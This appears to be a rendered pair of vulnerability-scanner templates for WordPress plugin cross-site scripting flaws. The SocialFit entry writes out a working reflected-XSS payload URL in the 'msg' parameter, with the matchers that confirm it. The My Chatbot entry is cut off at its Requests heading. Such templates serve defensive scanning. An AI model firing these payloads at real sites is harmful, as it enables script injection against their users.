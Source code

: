 
# WordPress SocialFit - Cross-Site Scripting

## Description

- WordPress SocialFit is vulnerable to a cross-site scripting vulnerability via the 'msg' parameter because it fails to properly sanitize user-supplied input.

- severity - high
- tags - wordpress,xss,wp-plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/socialfit/popup.php?service=googleplus&msg=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress My Chatbot \<= 1.1 - Cross-Site Scripting

## Description

- WordPress My Chatbot \<= 1.1 is susceptible to cross-site scripting. The plugin does not sanitize or escape its tab parameter in the Settings page before outputting it back in an attribute.
- severity - high
- tags - wordpress,wp-plugin,xss,authenticated,wpscan

## Requests
